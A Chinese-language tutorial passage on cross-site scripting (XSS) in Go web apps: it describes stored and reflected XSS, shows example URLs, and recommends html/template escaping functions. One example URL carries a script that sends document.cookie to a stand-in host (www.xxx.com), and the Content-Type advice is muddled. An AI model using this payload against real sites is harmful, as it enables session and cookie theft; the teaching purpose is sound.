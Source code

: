 # 一 跨站脚本攻击XSS

#### 1.1 XSS简介

动态站点很容易受到跨站脚本攻击（Cross Site Scripting, 安全专家们通常将其缩写成 XSS）。它允许攻击者将恶意代码植入到提供给其它用户使用的页面中，XSS涉及到三方，即攻击者、客户端与Web应用。XSS的攻击目标是为了盗取存储在客户端的cookie或者其他网站用于识别客户端身份的敏感信息。  

XSS通常可以分为两大类：
- 存储型XSS：主要出现在让用户输入数据，供其他浏览此页的用户进行查看的地方，包括留言、评论等。
- 反射型XSS：主要做法是将脚本代码加入URL地址的请求参数里，请求参数进入程序后在页面直接输出，用户点击类似的恶意链接就可能受到攻击。

XSS目前主要的手段和目的如下：
- 盗用cookie，获取敏感信息。
- 利用植入Flash，通过crossdomain权限设置进一步获取更高权限；或者利用Java等得到类似的操作。
- 利用iframe、frame、XMLHttpRequest或上述Flash等方式，以（被攻击者）用户的身份执行一些管理动作，或执行一些如:发微博、加好友、发私信等常规操作，前段时间新浪微博就遭遇过一次XSS。
- 利用可被攻击的域受到其他域信任的特点，以受信任来源的身份请求一些平时不允许的操作，如进行不当的投票活动。
- 在访问量极大的一些页面上的XSS可以攻击一些小型网站，实现DDoS攻击的效果

#### 1.2 XSS攻击示例
```
# 一个常见的get请求：
	http://localhost:3000/?name=ruyue
	hello ruyue

# 在URL中插入js代码：
	http://localhost:3000?name=&#60;script&#62;alert(&#39;ruyue,xss&#39;)&#60;/script&#62;
	此时浏览器会出现弹窗

# 盗取cookie：
	http://localhost:3000/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;
```

这样就可以把当前的cookie发送到指定的站点：`www.xxx.com`。尤其现在流行短网址，用户是无法识别的。  

#### 1.3 XSS的预防


目前防御XSS主要有如下几种方式（推荐结合使用）：

- 过滤特殊字符：即不相信任何用户的输入，对用户输入内容进行过滤。Go的html/template里面带有下面几个函数可以用于过滤
  - func HTMLEscape(w io.Writer, b []byte)  //把b进行转义之后写到w
  - func HTMLEscapeString(s string) string  //转义s之后返回结果字符串
  - func HTMLEscaper(args ...interface{}) string //支持多个参数一起转义，返回结果字符串
- 使用HTTP头指定类型：
	- `w.Header().Set("Content-Type","text/javascript")`，这样就可以让浏览器解析javascript代码，而不会是html输出。

示例：
```Go

fmt.Println("username:", template.HTMLEscapeString(r.Form.Get("username"))) //输出到服务器端
fmt.Println("password:", template.HTMLEscapeString(r.Form.Get("password")))
template.HTMLEscape(w, []byte(r.Form.Get("username"))) //输出到客户端
```
如果我们输入的username是`<script>alert()</script>`,那么我们可以在浏览器上面看到输出如下所示：
